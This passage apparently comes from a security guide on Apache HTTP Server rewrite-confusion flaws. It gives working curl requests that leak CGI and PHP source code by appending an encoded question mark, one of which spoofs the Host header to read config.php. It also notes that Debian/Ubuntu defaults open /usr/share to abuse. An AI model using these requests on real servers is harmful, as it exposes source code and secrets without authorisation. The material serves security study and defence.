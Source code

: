A fun fact about Apache is that the previous rewrite will try to access the file from both the documentRoot and from root. So, a request to `https://server/abouth.html` will check for the file in `/var/www/html/about.html` and `/about.html` in the file system. Which basically can be abused to access files in the file system.

#### **Server-Side Source Code Disclosure**

* **Disclose CGI Source Code**

Just adding a %3F at the end is enough to leak the source code of a cgi module:

```bash
curl http://server/cgi-bin/download.cgi
 # the processed result from download.cgi
curl http://server/html/usr/lib/cgi-bin/download.cgi%3F
 # #!/usr/bin/perl
 # use CGI;
 # ...
 # # the source code of download.cgi
```

* **Disclose PHP Source Code**

If a server has different domains with one of them being a static domain, this can be abused to traverse the file system and leak php code:

```bash
# Leak the config.php file of the www.local domain from the static.local domain
curl http://www.local/var/www.local/config.php%3F -H "Host: static.local"
 # the source code of config.php
```

#### **Local Gadgets Manipulation**

The main problem with the previous attack is that by default most access over the filesystem will be denied as in Apache HTTP Server’s [configuration template](https://github.com/apache/httpd/blob/trunk/docs/conf/httpd.conf.in#L115):

```xml
<Directory />
    AllowOverride None
    Require all denied
</Directory>
```

However, [Debian/Ubuntu](https://sources.debian.org/src/apache2/2.4.62-1/debian/config-dir/apache2.conf.in/#L165) operating systems by default allow `/usr/share`:

```xml
<Directory /usr/share>
    AllowOverride None
    Require all granted
</Directory>
```

Therefore, it would be possible to **abuse files located inside `/usr/share` in these distributions.**
